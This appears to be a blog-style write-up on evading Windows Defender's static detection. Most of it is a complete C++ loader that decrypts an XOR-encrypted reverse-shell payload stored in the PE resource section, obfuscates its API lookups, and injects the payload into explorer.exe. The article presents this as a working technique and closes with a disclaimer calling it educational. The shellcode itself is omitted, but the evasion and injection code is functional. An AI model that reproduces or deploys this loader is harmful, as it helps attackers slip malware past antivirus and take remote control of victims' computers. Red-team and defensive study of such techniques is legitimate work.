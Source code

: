 
# Bypassing Windows Defender Static Detection

## Introduction

In this article, I’ll walk you through how I bypassed the **static detection** of Windows Defender. Currently, I haven’t managed to evade dynamic detection, but I aim to achieve full evasion in the coming months.

To accomplish this, I leaned heavily on the excellent **Malware Development Essentials** course from [Sektor7](https://institute.sektor7.net/). It’s an incredibly informative course on low-level malware development. What follows is essentially the final project I completed as part of this training.

---

## Overview

### Objective

Inject a reverse shell payload into `explorer.exe` while avoiding static detection by Windows Defender.

### Key Evasion Techniques

- Store the payload in the `.rsrc` section of the PE file.
- Encrypt the payload using XOR.
- Obfuscate API calls using `GetProcAddress` and `GetModuleHandle`.
- Encrypt suspicious strings using XOR.

---

![image](https://github.com/user-attachments/assets/77a0f8f8-3a16-45b5-99f6-53806998c853)

## Code Breakdown

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

// Function pointers for API calls
LPVOID (WINAPI * allocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
BOOL (WINAPI * writeMem)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
HANDLE (WINAPI * createThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);

char key[] = "mysecretkeee";
char key2[] = "s12";

// XOR encryption/decryption
void XOR(char * data, size_t len, char * key, size_t key_len) {
    int j = 0;
    for (int i = 0; i < len; i++) {
        if (j == key_len - 1) j = 0;
        data[i] ^= key[j++];
    }
}

// Find process ID of target
int FindTarget(const char *procname) {
    PROCESSENTRY32 pe32;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);
    if (!Process32First(snapshot, &pe32)) {
        CloseHandle(snapshot);
        return 0;
    }

    while (Process32Next(snapshot, &pe32)) {
        if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
            CloseHandle(snapshot);
            return pe32.th32ProcessID;
        }
    }

    CloseHandle(snapshot);
    return 0;
}

// Inject payload into process
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
    unsigned char s_allocEx[] = { /* obfuscated bytes */ };
    unsigned char s_writeMem[] = { /* obfuscated bytes */ };
    unsigned char s_createThread[] = { /* obfuscated bytes */ };

    XOR((char *) s_allocEx, sizeof(s_allocEx), key2, sizeof(key2));
    XOR((char *) s_writeMem, sizeof(s_writeMem), key2, sizeof(key2));
    XOR((char *) s_createThread, sizeof(s_createThread), key2, sizeof(key2));

    allocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), s_allocEx);
    writeMem = GetProcAddress(GetModuleHandle("kernel32.dll"), s_writeMem);
    createThread = GetProcAddress(GetModuleHandle("kernel32.dll"), s_createThread);

    LPVOID remote = allocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    writeMem(hProc, remote, payload, payload_len, NULL);

    HANDLE hThread = createThread(hProc, NULL, 0, remote, NULL, 0, NULL);
    if (hThread) {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

// Main execution
int main(void) {
    void * exec_mem;
    HANDLE hProc;
    DWORD oldprotect;
    unsigned char * payload;
    unsigned int payload_len;

    HRSRC res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    HGLOBAL resHandle = LoadResource(NULL, res);
    payload = (char *) LockResource(resHandle);
    payload_len = SizeofResource(NULL, res);

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec_mem, payload, payload_len);
    XOR((char *) exec_mem, payload_len, key, sizeof(key));

    printf("Ready to inject. Press Enter to continue...
");
    getchar();

    int pid = FindTarget("explorer.exe");
    if (pid) {
        hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
        if (hProc) {
            Inject(hProc, exec_mem, payload_len);
            CloseHandle(hProc);
        }
    }

    return 0;
}
```

---

## Payload

The reverse shell payload is not included directly in the source. Instead, it's stored in the `.rsrc` section of the PE file. Learn more about this technique in this writeup:

> 📖 [Storing Payload in PE File (Medium article)](https://medium.com)

---

## Result

After compiling the binary and scanning it with Windows Defender, it triggers detection when executed — **not** on static scan. This demonstrates that static evasion is working as intended. The reverse shell is launched only when `explorer.exe` is active and undisturbed.

---

## Conclusion

This project is a practical example of basic static detection evasion for educational purposes. I hope it helps anyone learning about red teaming and malware development.

More to come — including full evasion from Windows Defender.

— **Malforge Group**


---

> **Disclaimer:** This is for educational and ethical hacking purposes only. Never use this knowledge for illegal activities.
